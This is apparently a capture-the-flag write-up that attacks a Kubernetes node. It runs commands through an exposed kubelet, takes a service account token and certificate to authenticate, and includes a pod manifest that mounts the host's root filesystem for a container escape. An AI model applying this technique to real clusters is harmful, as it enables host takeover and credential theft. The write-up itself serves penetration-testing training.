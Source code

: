 ```
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 862.22 seconds
```

## Kubernetes

- Lots of ports that comes out are kubernetes related.
- After a little reading (see the resources) I decided to try [kubeletctl](https://github.com/cyberark/kubeletctl)
- Pods
![image](https://user-images.githubusercontent.com/96747355/175795755-6dff24fb-fdec-4461-bd22-bd300994aa69.png)  
- configz  
![image](https://user-images.githubusercontent.com/96747355/175795770-8085b5f6-d3b5-4380-b40e-788e2f60508c.png)  
- Reading the doc we can actually execute command in a container. Turns out we have an nginx pod so we could try this. After a few tries we can actually find the user flag  
![image](https://user-images.githubusercontent.com/96747355/175795795-1313eae6-504f-4fbd-bf4f-09ca40600dbd.png)  
- We can try to authenticate by getting the cert and the token (see [here](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/kubernetes-enumeration#service-account-tokens) for more details about this)
![image](https://user-images.githubusercontent.com/96747355/175796515-67a6bbdf-02e2-4e40-938b-e563acd08994.png)  
![image](https://user-images.githubusercontent.com/96747355/175796523-7ac7824f-1acb-481e-93c0-c73de46a1843.png)  
- Now let's use this to authenticate  
![image](https://user-images.githubusercontent.com/96747355/175796537-cdb0a471-7f53-428b-aa1c-c3b993d30426.png)  
- It works
- We can now make our own yaml

```yaml
apiVersion: v1 
kind: Pod
metadata:
  name: new-nginx-pod
  namespace: default
spec:
  containers:
  - name: new-nginx-pod
    image: nginx:1.14.2
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
- Now we need to apply our new pod
![image](https://user-images.githubusercontent.com/96747355/175797313-76c0a98c-4e88-4b47-a73e-9f783730a9ad.png)  

